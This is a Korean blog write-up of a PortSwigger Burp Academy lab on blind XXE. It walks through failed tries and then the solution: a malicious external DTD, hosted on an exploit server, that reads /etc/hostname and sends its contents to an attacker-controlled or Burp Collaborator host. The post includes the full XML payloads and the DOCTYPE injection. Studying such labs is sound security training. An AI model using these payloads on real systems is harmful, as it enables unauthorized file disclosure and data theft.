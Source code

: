 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting blind XXE to exfiltrate data using a malicious external DTD"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- Blind XXE 문제인데 XML의 파라메터 엔터티(Parameter Entity)를 통해 out-of-band 통신을 발생시키는 예제로 보인다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration


- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석
- 이전 문제들과 마찬가지로 "Check stock" 기능을 통해 XML 을 삽입할 수 있다. 
- `/etc/hostname` 파일의 내용을 얻어내면 된다. 
- 내용을 HTTP 응답으로 직접확인할 수는 없다. Blind XXE를 응용해야 한다. 
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the /etc/hostname file.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.
```


# 준비
## exploit server
이 문제부터는 exploit server 가 등장한다. 다음과 같이 특정 경로 요청에 대해 어떤 응답을 보낼지를 설정할 수 있다. 

![exploit server](/images/burp-academy-exploit-servser.png)



# 1차 시도 
우선 Parameter 엔터티로 `/etc/hostname` 을 접근할 수 있는지 확인해본다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<stockCheck>
	<productId>%file;</productId>
	<storeId>1</storeId>
</stockCheck>
```

안된다. XML 파싱에러가 발생했다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
[XXE 설명 페이지](https://portswigger.net/web-security/xxe/blind){:target="_blank"}를 보면 다음 페이로드가 소개되어 있다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- `&#x25;` 는 HTML 디코드하면 `%` 이다. 
- /etc/passwd의 내용을 file 이라는 이름의 파라메터 엔터티에 저장해둔다. 
- eval이라는 이름의 파라메터 엔터티에 다이내믹 선언한 exfiltrate 라는 파라메터 엔터티의 값을 저장해둔다. 
- exfiltrate 엔터티는 HTTP 요청을 공격자의 웹 서버에 file 엔터티의 내용을 URL 쿼리 스트링으로 함께 보낸다. 

이 것을 다음과 같이 바꿔서 보냈다. 

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0ae8003e0426eb73c02fa82501bd002e.exploit-server.net/?x=%file;'>">
%eval;
%exfiltrate;
```

보안 이유 때문에 Entity 는 사용할 수 없다는 응답이 돌아왔다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 47

"Entities are not allowed for security reasons"
```

## 3차 시도 
여기서 부터는 잘 모르겠다. 정답을 봤다. 

# 해답
이 문제를 풀려면 Burp Collaborator와 통신이 가능한 Burp Suite Professional 버전이 필요하다. 

- STEP 1. Burp Suite Professional에서 Burp Collaborator 탭으로 이동한다. 
- STEP 2. "Copy to clipboard" 를 이용해 유니크한 Burp Collaborator 페이로드를 복사해둔다. 

![Burp Collaborator 페이로드 복사](/images/burp-academy-xxe-5-1.png)

- STEP 3. 다음 DTD 파일의 BURP-COLLABORATOR-SUBDOMAIN 을 복사한 페이로드로 바꾼다. 

```xml 
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```

예를 들어, 내 경우에는 다음과 같이 되었다. 
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://n8wqd73kghte5rc9tqfr8wq0frli98xx.oastify.com/?x=%file;'>">
%eval;
%exfil;
```

- STEP 4. exploit server 로 이동해서 위의 DTD 파일을 응답 Body 부분에 저장한다. 
- STEP 5. 유저가  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디 부분을 다음과 같이 바꾼다. 

```xml 
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

내 경우에는 다음과 같이 된다. 

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5200f2036c3c94c2e7ba5c01230041.exploit-server.net/exploit"> %xxe;]>
```

이 페이로드를  "Check stock" 버튼을 눌렀을 때의 POST 요청 바디로 전송한다. 400 Bad Request 응답이 돌아온다. 

![페이로드 전송](/images/burp-academy-xxe-5-2.png)


- STEP 6. Burp Suite Professional에서 Burp Collaborator 탭에서 "Poll now" 를 클릭한다. 
- STEP 7. 조금 기다리면 Burp Collaborator 서버로 통신한 DNS와 HTTP 통신이력이 보인다. HTTP 통신에 /ect/hostname 파일의 내용이 보인다. 

![Burp Collaborator 서버 통신](/images/burp-academy-xxe-5-3.png)

이 것을 정답제출 버튼을 누르고 제출하면 다음과 같이 풀이에 성공했다는 팝업이 나타난다. 

![풀이성공](/images/burp-academy-xxe-5-4.png)

# 구성도 
과정이 복잡해졌기 때문에 이해하기 어렵다. 이해를 위해 구성도를 그려보고 과정을 다시 한번 정리해보자. 

![구성도](/images/burp-academy-xxe-5-diagram.png)

- EC Site 에는 XXE취약점이 있지만 XXE의 결과가 응답페이지에 표시되지 않는다. 
- 공격자는 악의적인 DTD를 제공하는 서버를 구축한다. (hacker DTD Server)
- 이 DTD는 /etc/hostname 의 정보를 HTTP URL파라메터에 지정해 특정 서버로 요청하라는 지시를 담고 있다. 
- 위의 과정에서 특정서버는 Burp Collaborator서버를 사용했다. (Burp Collaborator서버를 사용하면 특정 경로로 특정 요청이 온 것을 확인하기 용이하다.)
- 유저(공격자)가 POST 요청으로 XXE 페이로드를 전달한다. 
- EC Site는 XXE 페이로드를 해석하는 과정에서 Burp Collaborator서버로 중요정보를 포함한 HTTP 요청을 보낸다. 
- 공격자는 Burp Collaborator서버에 문의해서 어떤 요청이 들어왔는지를 확인할 수 있다. 이 요청의 파라메터를 확인하는 것으로 중요정보를 입수할 수 있다. 